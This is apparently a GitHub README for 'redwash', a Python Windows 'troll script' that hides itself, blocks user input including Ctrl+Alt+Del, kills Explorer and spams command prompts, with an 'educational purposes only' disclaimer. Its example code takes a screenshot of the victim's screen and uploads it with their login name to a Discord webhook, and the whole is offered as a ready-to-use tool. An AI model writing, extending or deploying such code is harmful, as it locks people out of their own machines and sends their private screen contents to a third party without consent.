

# redwash
Created in December 2021 -- Last Modified 12/15/2021

A Python (for Windows) troll script that locks the user's computer and jumpscares them. I made this as a proof-of-concept that Windows gives executables an unusual amount of freedom over the device and is pretty insecure.
This program __does not require UAC (Run as administrator)__.

# ⚠️ This code is provided for educational purposes only. I am not liable for any misuse of this script such as using it to collect user data for malicious intent.

Has various optional features:
* Hide itself when run
* Block user input (including Ctrl+Alt+Del)
* Minimize all other running applications
* Spam open command prompts
* Kill Windows Explorer
* Execute other code during runtime (upload screenshot etc.)



## Example Usage
```python
""" redwash code implementation goes here... """

def otherCode():
    # This is an example of some code you can execute in the background when redwash is running.
    # In this example, we take a screenshot of the user's computer and upload it to a discord webhook.

    # Take a screenshot of the PC
    screenshot = ImageGrab.grab()
    buffered = BytesIO()
    screenshot.save(buffered, format="PNG")

    # Your Discord webhook URL
    webhook_url = 'your_webhook_url'

    # Prepare the payload
    files = {'file': ('screenshot.png', buffered.getvalue(), 'image/png')}
    data = {'payload_json': dumps({"content": getlogin() + " just executed the script!", "username": "redwash", "avatar_url": "https://cdn.discordapp.com/attachments/1193058123733282998/1193058403862454282/terxture.png?ex=65ab5539&is=6598e039&hm=05040b88e1d2b6500f983e13bfd262ffee851d8c973d5ff4eb1e8016ea396e6a&"})}

    # POST request to the Discord webhook
    res = post(webhook_url, files=files, data=data)

if __name__ == "__main__":
    redwash(True, True, True, True, True, False, otherCode)
```
